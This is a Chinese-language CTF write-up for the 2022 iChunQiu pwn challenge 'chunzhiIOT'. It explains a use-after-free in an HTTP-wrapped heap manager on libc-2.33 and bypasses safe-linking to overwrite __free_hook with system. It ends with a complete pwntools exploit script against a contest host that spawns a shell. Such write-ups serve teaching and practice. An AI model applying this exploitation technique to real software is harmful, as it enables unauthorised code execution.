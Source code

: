 ```yaml
---
layout: article
pageview: true
key: 2022-05-07-ichunqiu2022-pwn-wp 
title: 2022年春秋杯网络安全联赛-春季赛Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


<!--more-->

题目分数是从第一个人解出来后按时间减少的，一道500分的题做出来后只剩55分了。。。

## chunzhiIOT

`libc-2.33`

保护全开

一道`x86`架构的题，题目功能是接受HTTP协议的堆管理器，相当于HTTP套壳的堆题

题目每次接受一个HTTP请求，并根据请求的内容填充一个结构体，再根据结构体的内容来对堆进行操作

要想成功将指令写入结构体，需要进行`POST`请求，并且指令再14行含有字符`:`的字符串后

每次操作堆时的指令为`cmd&idx&arg1&arg2&arg3...`

根据题目逻辑，要想进行堆操作，必须先进行一次`CONNECT`请求，并传入字符串`rotartsinimda`

题目的漏洞为非常明显的`UAF`，可以泄露和修改已经释放的堆快，考点再题目环境上

在`libc-2.33`中，对于`fastbin`以及`tcache`的fd指针会被进行异或操作加密，用来异或的值随堆地址发生改变

我们的思路依然是泄露`libc`基址后修改`__free_hook`为`system`，和低版本`UAF`相比，我们需要申请两个`chunk`后释放掉，泄露出`key`，最后修改`fd`时需要填入`key ^ __free_hook`的值来写入加密后的`fd`

完整exp如下


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context(arch='amd64')
context.log_level = 'debug'

_elf = './pwn'
_libc = './libc-2.33.so'
_addr = '101.200.198.40'
_port = 44815

local = 1

libc = ELF(_libc)


def getConn():
    if local == 1:
        # return process([_elf], env={'LD_PRELOAD': _libc})
        return process(_elf)
    else:
        return remote(_addr, _port)


def debug(p, cmd=None):
    if local == 1:
        gdb.attach(p, cmd)
    pause()


def rn(con):
    return con+b'\r\n'


def add(idx, size, con):
    pay = p8(1)+b'&'+bytes(str(idx), 'ascii') + \
        b'&'+bytes(str(size), 'ascii')+b'&'+con
    p.sendafter(b'Waiting Package...\n', pad+rn(pay))


def edit(idx, con):
    pay = p8(2)+b'&'+bytes(str(idx), 'ascii')+b'&'+con
    p.sendafter(b'Waiting Package...\n', pad+rn(pay))


def show(idx):
    pay = p8(3)+b'&'+bytes(str(idx), 'ascii')
    p.sendafter(b'Waiting Package...\n', pad+rn(pay))


def delete(idx):
    pay = p8(4)+b'&'+bytes(str(idx), 'ascii')
    p.sendafter(b'Waiting Package...\n', pad+rn(pay))


pad = rn(b'POST /aa HTTP/1.1')
pad += rn(b':')*14

ogg = [911244, 911247, 911250, 911733, 911737]

p = getConn()

pay1 = rn(b'DEV / HTTP/1.1')
pay1 += rn(b':')*14
pay1 += rn(b'rotartsinimda')
p.sendafter(b'Waiting Package...\n', pay1)


add(0, 0x80, b'a')
add(1, 0x80, b'a')
add(2, 0x20, b'/bin/sh\x00')
delete(0)
delete(1)

show(0)
p.recvuntil(b'Content-Length')
p.recvline()
a0 = u64(p.recv(5)+b'\0\0\0')
show(1)
p.recvuntil(b'Content-Length')
p.recvline()
a1 = u64(p.recv(6)+b'\0\0')

log.info(hex(a0))
log.info(hex(a1))
log.info(hex(a1 ^ a0))
r_a0 = a1 ^ a0

add(3, 0x420, b'a')
add(4, 0x20, b'a')
delete(3)
edit(3, b'\x0a')
show(3)
p.recvuntil(b'Content-Length')
p.recvline()
libc_base = u64(p.recv(6)+b'\0\0')-0xa-96-0x10-libc.sym['__malloc_hook']
# edit(3,b'\x00')

log.success(hex(libc_base))


system = libc_base+libc.sym['system']
freehook = libc_base+libc.sym['__free_hook']

log.info(hex(freehook ^ a0))

edit(1, p64(freehook ^ a0))

add(5, 0x80, p64(system))
add(6, 0x80, p64(system))

delete(2)

debug(p)
p.interactive()

```